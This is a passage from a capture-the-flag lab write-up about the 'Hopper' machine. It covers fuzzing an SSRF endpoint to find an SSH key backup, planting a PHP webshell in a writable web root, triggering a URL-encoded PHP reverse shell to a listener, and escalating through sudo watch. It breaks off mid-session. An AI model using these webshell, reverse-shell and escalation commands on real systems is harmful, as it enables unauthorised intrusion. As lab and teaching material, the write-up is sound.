  :: Filter           : Response size: 558
 :: Filter           : Response lines: 7
 :: Filter           : Response status: 403
________________________________________________

[Status: 200, Size: 1751, Words: 9, Lines: 31]
| URL | http://10.10.10.54/advanced-search/path.php?path=http://localhost:2222/backup
    * FUZZ: backup

[Status: 200, Size: 0, Words: 1, Lines: 1]
| URL | http://10.10.10.54/advanced-search/path.php?path=http://localhost:2222/lost+found
    * FUZZ: lost+found

:: Progress: [4702/4702] :: Job [1/1] :: 476 req/sec :: Duration: [0:00:14] :: Errors: 0 ::
{% endhighlight %}

The /backup file was an SSH key (encrypted) for our user *edward*. We can break this with john in the usual way and log in. Once inside, there isn't actually much to find - and that's the second interesting part about this challenge: sometimes you have to go backwards to go forwards.

We have write access to **/var/www/html** and that means we can create a webshell and send ourselves a reverse shell:

{% highlight shell %}
edward@hopper:~$ cd /var/www/html
edward@hopper:/var/www/html$ ls -lash
total 108K
4,0K drwxrwxrwx 3 root root 4,0K jul 28 11:41 .
4,0K drwxr-xr-x 3 root root 4,0K jul 27 12:32 ..
4,0K drwxrwxrwx 2 root root 4,0K jul 27 14:50 advanced-search
 88K -rwxrwxrwx 1 root root  87K mar 15  2016 image.jpg
4,0K -rwxrwxrwx 1 root root   80 jul 27 14:27 index.html
4,0K -rwxrwxrwx 1 root root  104 jul 27 14:28 style.css
edward@hopper:/var/www/html$ printf '<?php system($_GET['cmd']);?>' > webshell.php
edward@hopper:/var/www/html$ chmod +x webshell.php 
edward@hopper:/var/www/html$ exit
{% endhighlight %}

and

{% highlight shell %}
http://10.10.10.54/webshell.php?cmd=php+-r+%27$sock%3dfsockopen(%2210.10.10.2%22,1234)%3bexec(%22/bin/sh+-i+%3C%263+%3E%263+2%3E%263%22)%3b%27
{% endhighlight %}

and

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/hopper]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.10.2] from (UNKNOWN) [10.10.10.54] 49938
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@hopper:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on hopper:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on hopper:
    (henry) NOPASSWD: /usr/bin/watch
www-data@hopper:/var/www/html$ sudo -u henry /usr/bin/watch -x sh -c 'reset; exec sh 1>&0 2>&0'
< /usr/bin/watch -x sh -c 'reset; exec sh 1>&0 2>&0'
Error opening terminal: unknown.
www-data@hopper:/var/www/html$ export TERM=xterm 
export TERM=xterm
